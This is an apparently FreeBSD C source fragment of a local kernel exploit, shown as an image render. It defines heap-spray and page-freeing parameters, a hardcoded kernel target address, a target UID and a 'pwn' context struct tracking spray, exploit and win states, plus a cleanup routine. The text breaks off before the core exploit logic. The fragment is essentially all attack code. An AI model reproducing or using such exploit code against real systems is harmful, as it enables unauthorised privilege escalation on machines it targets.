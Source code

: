 ```c
#include <sys/stat.h>
#include <sys/mman.h>
#include <sysexits.h>
#include <sys/uio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <stdio.h>
#include <errno.h>
#include <err.h>

#define FREE_PAGE_SIZE    0x10000000 / 2048
#define BLOCKER_SIZE      0x10000000 / 4
#define FORK_SPRAYS       6500
#define UID               1001
#define FREE_PAGE_ROUNDS  30720
#define BLOCKER_ROUNDS    15

struct pwn_ctx_{
  int init;
  int spray;
  int exploit;
  int win;
  int fail;
  sem_t * sem;
};

static int fd = 0;
static struct pwn_ctx_ *pwn_ctx;
static void *phys_big[FREE_PAGE_ROUNDS] = {0};
static void *blockers[BLOCKER_ROUNDS] = {0};
static unsigned long free_target = 0xfffff80017100008;

void cleanup()
{
  for(int i = 0; i < FREE_PAGE_ROUNDS; i++) {
    if(phys_big[i] != 0){
      munlock(phys_big[i], FREE_PAGE_SIZE);
      munmap(phys_big[i], FREE_PAGE_SIZE); 
      phys_big[i] = 0;
    }
  }
  for(int i = 0; i < BLOCKER_ROUNDS; i++) {
    if(blockers[i] != 0){
      munlock(blockers[i], BLOCKER_SIZE);
      munmap(blockers[i], BLOCKER_SIZE); 
      blockers[i] = 0;
    }
  }

  if(fd)
    close(fd);
  if(pwn_ctx->sem) {
    sem_close(pwn_ctx->sem);
    sem_unlink("/pwn");
  }

  printf("[+] Finished cleanup\n");
  if(!pwn_ctx->win){
    pwn_ctx->fail = 1;
    exit(0);
  }
```